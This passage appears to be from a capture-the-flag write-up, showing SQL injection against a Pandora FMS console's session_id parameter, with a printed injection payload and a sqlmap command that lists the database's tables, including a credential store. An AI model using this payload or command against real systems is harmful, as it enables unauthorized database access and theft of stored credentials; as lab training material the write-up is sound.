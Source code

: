 Here we can see that injection was successful and there is interesting `Pandora database`.  
If you are wondering what the payload is you can run the sqlmap for yourself but if you are only  
reading this I will be a good preson and paste it here:  
`Payload: session_id=''' RLIKE (SELECT (CASE WHEN (1789=1789) THEN 0x2727 ELSE 0x28 END))-- mTKo`  

Next we search for tables inside `pandora` database.  

```bash
┌──(herc㉿kali)-[~]
└─$ `sqlmap --url="127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" --batch -D pandora --tables`

...[SNIP]...

[178 tables]
+------------------------------------+
| taddress                           |
| taddress_agent                     |
| tagent_access                      |
| tagent_custom_data                 |
| tagent_custom_fields               |
| tagent_custom_fields_filter        |
| tagent_module_inventory            |
| tagent_module_log                  |
| tagent_repository                  |
| tagent_secondary_group             |
| tagente                            |
| tagente_datos                      |
| tagente_datos_inc                  |
| tagente_datos_inventory            |
| tagente_datos_log4x                |
| tagente_datos_string               |
| tagente_estado                     |
| tagente_modulo                     |
| talert_actions                     |
| talert_commands                    |
| talert_snmp                        |
| talert_snmp_action                 |
| talert_special_days                |
| talert_template_module_actions     |
| talert_template_modules            |
| talert_templates                   |
| tattachment                        |
| tautoconfig                        |
| tautoconfig_actions                |
| tautoconfig_rules                  |
| tcategory                          |
| tcluster                           |
| tcluster_agent                     |
| tcluster_item                      |
| tcollection                        |
| tconfig                            |
| tconfig_os                         |
| tcontainer                         |
| tcontainer_item                    |
| tcredential_store                  |
| tdashboard                         |
| tdatabase                          |
| tdeployment_hosts                  |
| tevent_alert                       |
| tevent_alert_action                |
| tevent_custom_field                |
| tevent_extended                    |
| tevent_filter                      |
| tevent_response                    |
```